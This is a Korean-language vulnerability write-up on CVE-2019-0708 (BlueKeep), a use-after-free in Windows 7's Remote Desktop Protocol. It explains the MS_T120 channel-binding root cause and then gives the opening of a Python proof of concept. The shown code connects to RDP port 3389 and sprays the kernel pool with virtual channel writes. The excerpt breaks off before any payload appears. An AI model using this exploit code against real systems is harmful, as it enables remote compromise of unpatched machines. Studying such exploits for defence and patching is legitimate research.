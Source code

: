 # Windows 7 Kernel : Windows Remote Desktop Protocol UAF vulnerability

## Information
- CVE : 2019-0708
- 해당 OS : Windows 7, Windows Server 2008, Windows Server 2008 R2(PoC 대상 : Windows 7 x86 SP1)
- 해당 버전 : 2019-05 이전 패치 대상
- 취약점 유형 : Use After Free

## Root Cause
RDP(Remote Desktop Protocol)의 채널 번호와 채널 객체를 바인딩 해주는 함수 IcaBindVirtualChannels의 취약점을 이용한 것이다. "MS_T120"은 윈도우 내에서 이미 31번 채널로 바인딩 하여 사용하고 있는데 이에 중복으로 객체를 바인딩시킨 후 해당 객체를 Free시키면 UAF 취약점이 발생한다. 

## PoC

### PoC 코드
```Python
import rdp
import socket
import binascii
import time

def pool_spray(s, crypter, payload):

    times = 10000
    count = 0

    while count < times: 

        count += 1 
        #print('time through %d' % count)

        try: 

            s.sendall(rdp.write_virtual_channel(crypter, 7, 1005, payload))

        except ConnectionResetError:

            print('ConnectionResetError pool_spray Aborting')

            quit()

def main():

    # change to your target
    host = '192.168.0.46'
    port = 3389

    times = 4000
    count = 0

    target = (host, port)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(target)

    crypter = rdp.connect(s)

    # this address was choosen for the pool spray. it could be be
    # modified for potentially higher success rates.
```